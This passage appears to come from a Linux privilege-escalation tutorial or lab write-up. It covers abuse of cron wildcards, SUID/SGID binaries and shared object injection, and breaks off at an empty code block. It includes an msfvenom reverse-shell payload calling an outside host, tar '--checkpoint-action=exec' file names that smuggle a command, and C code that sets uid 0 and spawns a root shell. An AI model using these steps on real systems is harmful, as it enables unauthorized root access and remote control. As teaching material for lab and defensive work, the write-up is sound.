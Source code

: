 
Now giving the permission to `overwrite.sh` file as `+x` so that crontab run everytime.

### Wildcards
If any command is run with a wildcard(\*) in home directory then we can use wildcard bypass technique in cron job. For that we have to generate the reverse_shell and then used shell to break out from restricted environments by spawing an interactive system shell.
`generate the shell`

```bash
root@gr4n173:~$ msfvenom -p linux/x64/reverse_tcp LHOST=10.10.14.175 -f elf -o shell.elf
```


Now we have to copy this file to the remote/vulnerable machine that can be done using `scp`.

```bash 
root@gr4n173:~$ scp /home/localuser/filename remoteuser@ipaddress:/home/user/
```


After shell.elf is downloaded to vulnerable box then set the permission over there.
```bash
root@gr4n173:~$ chmod +x /home/user/shell.elf
```

Create these two files in /home/user:

```bash 
root@gr4n173:~$ touch /home/user/--checkpoint=1  
root@gr4n173:~$ touch /home/user/--checkpoint-action=exec=shell.elf
```


When the tar command in the cron job runs, the wildcard (\*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

Now final part is to set the listner in local machine then you can get the shell after certain minute.

## 5. SUID/SGID Executables
### Known Exploits
Inorder to find all the SUID/SGID executables on debian we can run 
```bash
root@gr4n173:~$ find / -perm -u=s -type f 2> /dev/null
```


Then after this we can search the exploit related to the version of executables then get the root shell.

### Shared Object Injection

```c
$ shared object injection C code
libcalc.c 
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```
At first we have to identify the executables and vulnerable to `shared object injection`. For this we use the same technique with `find` and the strace the `so`
file
```bash
```